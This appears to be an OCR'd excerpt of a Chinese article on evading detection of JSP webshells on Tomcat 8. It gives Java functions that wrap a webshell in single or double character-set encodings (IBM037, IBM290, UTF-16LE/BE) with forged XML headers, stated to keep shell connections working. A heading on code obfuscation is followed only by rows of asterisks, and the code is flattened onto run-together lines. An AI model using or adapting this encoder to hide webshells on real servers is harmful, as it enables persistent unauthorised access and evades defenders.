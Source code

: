 7shell内容单/双重编码的代码实现

以下的编码代码，均可对xml格式的jsp马进行单/双重编码，并且在tomcat8下能正常解析和shell连接

引入了jspencounter项目的相关函数

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //ibm037&ibm290public static byte[] tomcat_jsp_IBM290(byte[] data) throws Exception {     byte[] header = "<?xml version=\"1.0\" encoding='IBM290'?>".getBytes();     InputStream header_inputStream = new ByteArrayInputStream(header);     String header_str = IOUtils.toString(header_inputStream, StandardCharsets.UTF_8);     byte[] header_enc_byte_res = CharsetEncoder.Encode(header_str, "IBM037", true);     InputStream inputStream = new ByteArrayInputStream(data);     String shell_str = IOUtils.toString(inputStream, StandardCharsets.UTF_8);     byte[] enc_byte_res = CharsetEncoder.Encode(shell_str, "IBM290", true);     byte[] final_byte = new byte[header_enc_byte_res.length+enc_byte_res.length];     System.arraycopy(header_enc_byte_res, 0, final_byte, 0, header_enc_byte_res.length);     System.arraycopy(enc_byte_res, 0, final_byte, header_enc_byte_res.length, enc_byte_res.length);     return final_byte; }//double ibm037public static byte[] tomcat_jsp_IBM037(byte[] data) throws Exception {     byte[] header = "<?xml version=\"1.0\" encoding='IBM037'?>".getBytes();     InputStream header_inputStream = new ByteArrayInputStream(header);     String header_str = IOUtils.toString(header_inputStream, StandardCharsets.UTF_8);     byte[] header_enc_byte_res = CharsetEncoder.Encode(header_str, "IBM037", true);     InputStream inputStream = new ByteArrayInputStream(data);     String shell_str = IOUtils.toString(inputStream, StandardCharsets.UTF_8);     byte[] enc_byte_res = CharsetEncoder.Encode(shell_str, "IBM037", true);     byte[] final_byte = new byte[header_enc_byte_res.length+enc_byte_res.length];     System.arraycopy(header_enc_byte_res, 0, final_byte, 0, header_enc_byte_res.length);     System.arraycopy(enc_byte_res, 0, final_byte, header_enc_byte_res.length, enc_byte_res.length);     return final_byte; }//double utf-16lepublic static byte[] tomcat_jsp_UTF_16LE(byte[] data) throws Exception {     byte[] header = "<?xml version=\"1.0\" encoding='UTF-16LE'?>".getBytes();     InputStream header_inputStream = new ByteArrayInputStream(header);     String header_str = IOUtils.toString(header_inputStream, StandardCharsets.UTF_8);     byte[] header_enc_byte_res = CharsetEncoder.Encode(header_str, "UTF-16LE", true);     InputStream inputStream = new ByteArrayInputStream(data);     String shell_str = IOUtils.toString(inputStream, StandardCharsets.UTF_8);     byte[] enc_byte_res = CharsetEncoder.Encode(shell_str, "UTF-16LE", true);     byte[] final_byte = new byte[header_enc_byte_res.length+enc_byte_res.length];     System.arraycopy(header_enc_byte_res, 0, final_byte, 0, header_enc_byte_res.length);     System.arraycopy(enc_byte_res, 0, final_byte, header_enc_byte_res.length, enc_byte_res.length);     return final_byte; }//double utf-16bepublic static byte[] tomcat_jsp_UTF_16BE(byte[] data) throws Exception {     byte[] header = "<?xml version=\"1.0\" encoding='UTF-16BE'?>".getBytes();     InputStream header_inputStream = new ByteArrayInputStream(header);     String header_str = IOUtils.toString(header_inputStream, StandardCharsets.UTF_8);     byte[] header_enc_byte_res = CharsetEncoder.Encode(header_str, "UTF-16BE", true);     InputStream inputStream = new ByteArrayInputStream(data);     String shell_str = IOUtils.toString(inputStream, StandardCharsets.UTF_8);     byte[] enc_byte_res = CharsetEncoder.Encode(shell_str, "UTF-16BE", true);     byte[] final_byte = new byte[header_enc_byte_res.length+enc_byte_res.length];     System.arraycopy(header_enc_byte_res, 0, final_byte, 0, header_enc_byte_res.length);     System.arraycopy(enc_byte_res, 0, final_byte, header_enc_byte_res.length, enc_byte_res.length);     return final_byte; }

8代码层混淆的代码实现

具体代码逻辑见注释处

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
